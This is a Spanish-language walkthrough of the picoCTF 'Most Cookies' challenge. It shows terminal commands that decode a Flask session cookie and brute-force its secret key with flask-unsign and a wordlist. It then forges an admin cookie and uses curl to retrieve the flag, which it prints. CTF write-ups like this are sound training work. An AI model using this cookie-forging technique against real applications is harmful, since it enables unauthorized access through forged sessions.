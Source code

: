 ### Descripción 
Alright, enough of using my own encryption. Flask session cookies should be plenty secure! [server.py](https://mercury.picoctf.net/static/1e4bd835ad3e7fe776d49e7b8cc280c1/server.py) [http://mercury.picoctf.net:35697/](http://mercury.picoctf.net:35697/)
### Solución 

┌──(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ echo eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aPw3qQ.Ps4SpuivCJdAkhE97fYWhb07dQs | base64 -d
{"very_auth":"snickerdoodle"}base64: invalid input

cree un archivo llamado cookies.txt con el editor pluma de los nombres de las cookies del archivo server.py 
┌──(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ cat cookies.txt
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

cree un ambiente virtual
┌──(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ sudo apt install python3-venv
Upgrading:                      
  libpython3-dev     python3      python3-minimal
  libpython3-stdlib  python3-dev  python3-venv  
  ┌──(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ python3 -m venv ~/.venv
    
┌──(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ source ~/.venv/bin/activate 
    
┌──(.venv)─(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ python3 -m pip install flask-unsign
┌──(.venv)─(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aPw3qQ.Ps4SpuivCJdAkhE97fYWhb07dQs" --wordlist cookies.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
┌──(.venv)─(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret"peanut butter"

usage: flask-unsign [-h] [-d] [-u] [-s] [-l] [-c [COOKIE]]
                    [--secret SECRET] [--salt SALT] [--wordlist WORDLIST]
                    [--threads THREADS] [--no-literal-eval]
                    [--server SERVER] [--insecure] [-o OUTPUT] [-p PROXY]
                    [--cookie-name COOKIE_NAME] [-U USER_AGENT] [-q]
                    [-C CHUNK_SIZE] [-v]
flask-unsign: error: unrecognized arguments: --secretpeanut butter
               
┌──(.venv)─(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"

eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aPxDYA.4DfvBHMvoPdHcpOMdVyWB6RMBuY

┌──(.venv)─(kali㉿kali)-[~/picoCTF/mostcookies]
└─$ curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aPxDYA.4DfvBHMvoPdHcpOMdVyWB6RMBuY" | grep pico    
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{pwn_4ll_th3_cook1E5_22fe0842}</code></p>



### Notas adicionales
### Referencias